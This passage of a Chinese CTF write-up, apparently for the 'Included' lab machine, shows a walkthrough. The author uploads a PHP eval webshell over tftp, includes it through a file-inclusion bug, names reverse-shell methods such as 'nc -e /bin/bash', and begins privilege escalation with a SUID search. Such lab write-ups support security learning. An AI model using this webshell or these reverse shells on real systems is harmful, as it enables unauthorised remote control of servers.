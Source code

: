 其实在前面已经有线索了，在包含`/etc/passwd`的时候，最下面有一行`tftp`用户

![image-20210305163233015](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210305163233015.png)

[tftp百度百科](https://baike.baidu.com/item/tftp/455170?fr=aladdin)

简单说一下就是一个类似于ftp的传文件的服务

传入一句话木马，然后包含即可，上传的路径就是`/etc/passwd`中`tftp`用户那一栏的用户根目录。

```php
// 2.php
┌──(root💀kali)-[/home/kali]
└─# cat 2.php         
<?php
        eval($_REQUEST['cmd']);
?>
                                                                                                                                                                               
┌──(root💀kali)-[/home/kali]
└─# tftp 10.10.10.55
tftp> put 2.php
Sent 37 bytes in 0.9 seconds
```

![image-20210305163631648](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210305163631648.png)

不知道由于啥问题，用post发送的时候并不会执行命令，所以蚁剑连不上。

弹一个shell回来，方法有很多

-   使用kali下的`php-reverse-shell.php`
-   传一个nc，用`nc -e /bin/bash`
-   用`bash -i`

这里简单点，采用第一点。

![image-20210305164014853](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210305164014853.png)



## 提权



### mike

user的flag在`/home/mike/user.txt`，但是需要mike的权限才能获取。

找了`setuid`，没用

```shell
www-data@included:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/at
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/gpasswd
```